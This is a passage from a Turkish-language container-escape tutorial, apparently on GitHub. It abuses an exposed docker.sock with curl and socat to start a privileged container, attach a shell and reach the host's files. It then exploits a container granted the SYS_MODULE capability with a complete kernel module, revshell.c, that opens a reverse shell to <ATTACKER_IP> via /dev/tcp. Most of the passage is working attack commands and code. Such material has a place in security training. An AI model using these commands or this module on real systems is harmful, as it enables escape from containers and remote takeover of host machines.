 ```json
Response {"Id":"f9ca25e4e3e4d749029a0cb96e44166378dda1ddc4f890f22bb6c371800e523f","Warnings":null}
```

`curl -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/<CID>/start`: Komutu ile CID kısmına yukarıdaki Id nin ilk 4 karakterini yazarak oluşturduğumuz konteyner'ı çalıştırıyoruz.

Bütün bunları yaptıktan sonra zafiyetli çalışan bir konteyner'ımız var. Şimdi yapmamız gereken buna bağlanmak. Bunun için **socat** kullanacağız.

`socat - UNIX-CONNECT:/var/run/docker.sock`: Yazarak **docker.sock** a bağlanıyoruz. Bu bağlantının içinde alttaki http requestini yazarak kendimize TCP bağlantısı alıyoruz.

```HTTP/1.1
POST /containers/<CID>/attach?stream=1&stdin=1&stdout=1&stderr=1 HTTP/1.1
Host:
Connection: Upgrade
Upgrade: tcp
```

Shell geldiğinde `cd /host/home` gidersek host'un dosyalarını bulabilirsiniz.

#### Excessive Capabilities

Bu örnekte bir konteyner'a aşırı yetenek eklendiğinde çıkan sorunlardan birini işleyeceğiz. Burada fazladan **SYS\_MODULE** yeteneği eklenmiş ve bunun ne işe yaradığını üst tarafta anlattık.

**Zafiyetli Makina**: `docker run -it –rm –cap-add SYS_MODULE sysmodule`

Buradaki sıkıntı yine dediğim gibi **SYS\_MODULE** yeteneğinin konteyner'a eklenmiş olmasıdır.

**Requirements**

* build-essential
* linux-headers-$(uname -r)
* net-tools
* netcat
* nano (optional)
* kmod

**Exploit**

Bu exploit'i yaparken bize iki adet dosya lazım. Biri **revshell.c** diğeri de **Makefile**

Altta revshell.c nin içeriğini görebilirsiniz

```c
#include<linux/init.h>
#include<linux/module.h>
#include<linux/kmod.h>

MODULE_LICENSE("GPL");

static int start_shell(void){
char *argv[] ={"/bin/bash","-c","bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1", NULL};
static char *env[] = {
"HOME=/",
"TERM=linux",
"PATH=/sbin:/bin:/usr/sbin:/usr/bin", NULL };
return call_usermodehelper(argv[0], argv, env, UMH_WAIT_PROC);
}

static int init_mod(void){
return start_shell();
}

static void exit_mod(void){
return;
}
module_init(init_mod);
module_exit(exit_mod);
```